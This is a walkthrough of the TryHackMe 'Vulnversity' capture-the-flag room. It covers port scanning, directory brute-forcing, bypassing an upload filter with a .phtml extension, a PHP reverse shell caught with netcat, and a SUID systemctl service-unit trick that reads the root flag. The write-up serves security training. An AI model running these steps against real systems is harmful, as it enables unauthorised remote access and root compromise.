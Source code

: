 ```yaml
---
title: "Vulnversity - TryHackMe"
author: bakeery
description: "Walkthrough of Vulnversity from TryHackMe"
date: 2023-03-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [privesc, pentest, ctf]
---
```


**[Vulnversity from TryHackMe](https://tryhackme.com/room/vulnversity)**

## Task 1 - Deploy the machine

deployment B), lezz go

## Task 2 - Reconnaissance

1. Scan this box: `nmap -sV <machines ip>`

	![nmap scan results](/assets/img/tryhackme/vulnversity/vuln1.png)

2. Scan the box, how many ports are open?

	`6`

3. What version of the squid proxy is running on the machine?

	`3.5.12`

4. How many ports will nmap scan if the flag -p-400 was used?

	`400`

5. Using the nmap flag -n what will it not resolve?

	`DNS`

6. What is the most likely operating system this machine is running?

	`Ubuntu`

7. What port is the web server running on?

	`3333`

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Task 3 - Locating directories using GoBuster

1. Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

	![gobuster help](/assets/img/tryhackme/vulnversity/vuln2.png)

2. What is the directory that has an upload form page?

	![go gobuster](/assets/img/tryhackme/vulnversity/vuln3.png)
	
	`/internal/`

	![/internal/index.php](/assets/img/tryhackme/vulnversity/vuln4.png)

## Task 4 - Compromise the webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

	on uploading a `.php` file,
	
	![hey not allowed](/assets/img/tryhackme/vulnversity/vuln5.png)

2. To identify which extensions are not blocked, we're going to fuzz the upload form. To do this, we're doing to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our [BurpSuite room](https://tryhackme.com/room/rpburpsuite) first.

	*sucks that the burpsuite room is only for subscribers*

3. Make a wordlist of different php extensions. Use **burpsuite** to send the upload POST request to `intruder` and add *that dollar-like sign* at appropriate places. Then start the attack.

	```terminal
	$ cat phpext_list.txt
	.php
	.php3
	.php4
	.php5
	.phtml
	```

	for some reason, the **intruder**'s sniper attack did not work for me i.e. gave the same response for all extensions. So, upon trying them manually, we get success for **`.phtml`**

4. A reverse php shell is given [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the value of the IP to your IP from the `tun0` interface. Change the extension to `.phtml`. Listen on `1234` through `netcat` with the command `nc -vlnp 1234`. Then upload the shell file, navigate to the file by going to the file URL, `http://$MACHINE_IP:3333/internal/uploads/php_rev_shell.phtml` to make the machine execute your file.

	when we go to the URL,

	![boom access](/assets/img/tryhackme/vulnversity/vuln6.png)

	now, we have spawned a shell

5. What is the name of the user who manages the webserver?

	the home folders for users are created at `/home/`. `ls /home/` shows us that a user, **`bill`** exists.

6. What is the user flag?

	![yea flag B)](/assets/img/tryhackme/vulnversity/vuln7.png)

## Task 5 - Privilege Escalation 

1. intro to SUID. find all binaries with SUID.

	to find all such binaries, we can run `find / -perm -4000 2>/dev/null`

	* `find` to search

	* `/` to start from the topmost directory

	* `-perm` to specify permission value

	* `-4000` to specify SUID permission value of exactly 4000

	* `2 > /dev/null` to hide all the errors by redirecting stderr to null stream

	![sweet suid](/assets/img/tryhackme/vulnversity/vuln8.png)

	`/bin/systemctl` is of importance here as you will see in the next question

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

	[gtfobins](https://gtfobins.github.io/) is a curated list of unix binaries that can be used for privilege escalation

	[this](https://gtfobins.github.io/gtfobins/systemctl/) gtfobins article on **systemctl** tells us how to exploit it to run any command as superuser

	so taking inspiration from that, we can do this

	```terminal
	$ RFLAG=$(mktemp).service
	$ echo '[Service]
	  Type=oneshot
	  ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/theFLAG"
	  [Install]
	  WantedBy=multi-user.target' > $RFLAG
	$ /bin/systemctl link $RFLAG
	$ /bin/systemctl enable --now $RFLAG
	```

	then to view the flag, `cat /tmp/theFLAG`

	![yea root flag B)](/assets/img/tryhackme/vulnversity/vuln9.png)